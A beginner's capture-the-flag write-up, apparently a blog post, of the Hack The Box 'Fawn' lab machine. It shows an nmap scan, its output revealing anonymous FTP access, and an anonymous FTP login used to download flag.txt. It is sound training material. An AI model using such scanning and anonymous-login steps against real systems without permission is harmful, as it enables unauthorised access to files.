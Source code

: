 # 🦌 Fawn – Hack The Box

> _Note: I’m not an expert. I’m writing this blog just to document my learning journey. 🚀_

---

### 🎯 Step 1: Setup

I connected to the Hack The Box VPN, then spawned the **Fawn** target machine and got its IP address:

```
10.129.197.22
```

---

### 🔍 Step 2: Scanning with Nmap

I ran an Nmap scan on the machine:

```bash
nmap -sV -sC -Pn 10.129.197.22
```

**Nmap output:**

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
```

Only **port 21 (FTP)** is open, and **anonymous login is allowed**. I also noticed a file named `flag.txt` is accessible via FTP!

---

### ❓ What is FTP?

> **FTP (File Transfer Protocol)** is used to transfer files between a client and server over a network.
> It typically runs over **TCP**, not **UDP**, because file transfers need to be reliable and complete.

---

### 🛠️ Step 3: FTP Access

At first, when I tried to use `ftp`, I got an error:

```
command not found
```

So I installed the FTP client:

```bash
sudo apt install ftp
```

Then I connected to the target using **anonymous login**:

```bash
ftp 10.129.197.22

Name: anonymous
Password: [just press Enter]
```

Once logged in, I listed the files:

```bash
ls
```

Output:

```
flag.txt
```

Then I downloaded the file:

```bash
get flag.txt
```

---

### 🏁 Step 4: Capture the Flag

After downloading, I viewed the flag:

```bash
cat flag.txt
```

🎉 **Root Flag Captured!**

---

### 📚 Summary

- **Service found**: FTP on port 21
- **Vulnerability**: Anonymous login allowed
- **Exploit**: Connect and download the `flag.txt` file via FTP

---

### 🚀 Final Thoughts

This was a simple but great beginner-friendly machine that teaches:

- Basic Nmap scanning
- FTP concepts
- Anonymous access exploitation

---

📝 _Happy hacking!_

---
